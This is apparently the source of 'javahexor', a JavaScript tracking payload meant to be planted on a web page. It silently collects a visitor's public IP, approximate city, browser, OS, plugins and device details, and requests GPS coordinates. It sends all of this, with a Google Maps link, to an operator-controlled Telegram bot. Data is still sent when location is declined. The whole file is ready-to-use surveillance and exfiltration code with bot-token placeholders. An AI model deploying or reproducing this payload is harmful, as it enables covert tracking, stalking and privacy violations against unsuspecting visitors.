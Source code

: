 // For More Info Visit -> https://github.com/Whitecat18/javahexor
// New : Get OS Information, Coordinates of the device The Time does he opens the site. Location, Public Ipv4 , City , Device Basic Info..etc

// Don't change the Line 5 and 6. Because Automation Script Plays a Role Here.
const botToken = 'YOUR_TELEGRAM_BOT_API_KEY';
const chatId = 'YOUR_CHAT_ID';

const getIP = async () => {
try {
const response = await fetch('https://api.ipify.org?format=json');
const data = await response.json();
return data.ip;
} catch (error) {
console.log(error);
}
};

const getLocation = async () => {
try {
const response = await fetch('https://ipapi.co/json/');
const data = await response.json();
return `${data.city}, ${data.region}, ${data.country}`;
} catch (error) {
console.log(error);
}
};

const askLocation = () => {
return new Promise((resolve, reject) => {
navigator.geolocation.getCurrentPosition(
position => {
const { latitude, longitude } = position.coords;
resolve({ latitude, longitude });
},
error => {
reject(error);
}
);
});
};

const getBrowserInfo = () => {
const browserName = navigator.appName;
const browserVersion = navigator.appVersion;
const userAgent = navigator.userAgent;
const platform = navigator.platform;
const language = navigator.language;
return `Browser Name: ${browserName}\nBrowser Version: ${browserVersion}\nUser Agent: ${userAgent}\nPlatform: ${platform}\nLanguage: ${language}`;
};

const getOsInfo = () => {
const os = navigator.platform;
const osVersion = navigator.oscpu;
const language = navigator.language;
return `Operating System: ${os}\nOperating System Version: ${osVersion}\nLanguage: ${language}`;
};

const getDeviceInfo = () => {
const screenWidth = screen.width;
const screenHeight = screen.height;
const colorDepth = screen.colorDepth;
const cookiesEnabled = navigator.cookieEnabled;
const doNotTrack = navigator.doNotTrack;
const plugins = Array.from(navigator.plugins, plugin => `${plugin.name} ${plugin.version}`);
const mimeTypes = Array.from(navigator.mimeTypes, mimeType => `${mimeType.type}`);
return `Screen Width: ${screenWidth}\nScreen Height: ${screenHeight}\nColor Depth: ${colorDepth}\nCookies Enabled: ${cookiesEnabled}\nDo Not Track: ${doNotTrack}\nPlugins: ${plugins}\nMime Types: ${mimeTypes}`;
};

const createGoogleMapsLink = (latitude, longitude) => {
return `https://www.google.com/maps?q=${latitude},${longitude}`;
};


Promise.all([getIP(), getLocation()])
.then(async ([publicIP, location]) => {
const browserInfo = getBrowserInfo();
const osInfo = getOsInfo();
const deviceInfo = getDeviceInfo();
let message = `Location: THE USER HAS DECLINED\nPublic IP: ${publicIP}\n\n${browserInfo}\n\n${osInfo}\n\n${deviceInfo}`;
let googleMapsLink = '';

    try {
      const position = await askLocation();
      const { latitude, longitude } = position;
      const locationMessage = `Latitude: ${latitude}\nLongitude: ${longitude}`;
      message = `Location: ${location}\nPublic IP: ${publicIP}\n\n${browserInfo}\n\n${osInfo}\n\n${deviceInfo}\n${locationMessage}`;
      googleMapsLink = createGoogleMapsLink(latitude, longitude);
    } catch (error) {
      console.log("The user has declined sharing their location.");
    }

    const url = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}\n\nGoogle Maps Link: ${googleMapsLink}`;
    fetch(url);
})
.catch(error => console.log(error));
